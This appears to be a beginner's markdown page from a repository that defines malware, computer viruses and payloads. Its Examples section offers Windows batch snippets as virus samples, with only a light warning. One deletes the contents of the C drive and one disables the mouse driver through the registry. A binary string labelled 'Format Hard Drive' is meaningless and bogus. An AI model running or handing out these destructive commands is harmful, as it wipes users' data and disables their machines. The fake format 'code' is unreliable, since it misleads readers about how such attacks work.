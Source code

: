 # Malicious Software (Malware)
Malicious software is any software used to disrupt computer operation, gather sensitive information, or gain access to private computer systems.


## Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code, documents or the boot sector of the hard drive. Viruses often perform some type of harmful activity on "infected" hosts, such as stealing hard disk space or CPU time, accessing private information, corrupting data, rendering the computer useless and so on. However, not all viruses carry a destructive payload or attempt to hide themselves - the defining characteristic of viruses is that they are self-replicating computer programs which install themselves without user consent.  
  
*Hex dump of the [Blaster Worm](http://en.wikipedia.org/wiki/Blaster_(computer_worm))*  
![Blaster Worm](http://upload.wikimedia.org/wikipedia/commons/e/ec/Virus_Blaster.jpg)

#### Examples
This examples are based on Windows machines but be careful if you are going to run it on Mac or Linux.  
  
*File format: *.bat* 
  
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```
  
**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```
  
**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Computer Worm


## Trojan horse


## Payload
Payload is the cargo of a [data transmission](http://en.wikipedia.org/wiki/Data_transmission). It is the part of the transmitted data which is the fundamental purpose of the transmission, to the exclusion of information sent with it (such as headers or metadata, sometimes refferred to as overhead data) solely to facilitate delivery. In the analysis of malicious software such as worms, viruses and Trojans, it also refers to the software's harmful results. Examples of payloads include data destruction, messages with insulting text or spurious e-mail messages sent to a large number of people.

*Veli Payload Delivery with psexec*
![Veli Payload Delivery with psexec](http://i.ytimg.com/vi/SgsEAzGrT4k/maxresdefault.jpg)

## Resources
- [Computer Virus](http://en.wikipedia.org/wiki/Computer_virus)
- [Hack Like a Pro: Metasploit for the Aspiring Hacker, Part 3 (Payloads)](http://null-byte.wonderhowto.com/how-to/hack-like-pro-metasploit-for-aspiring-hacker-part-3-payloads-0157032)
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
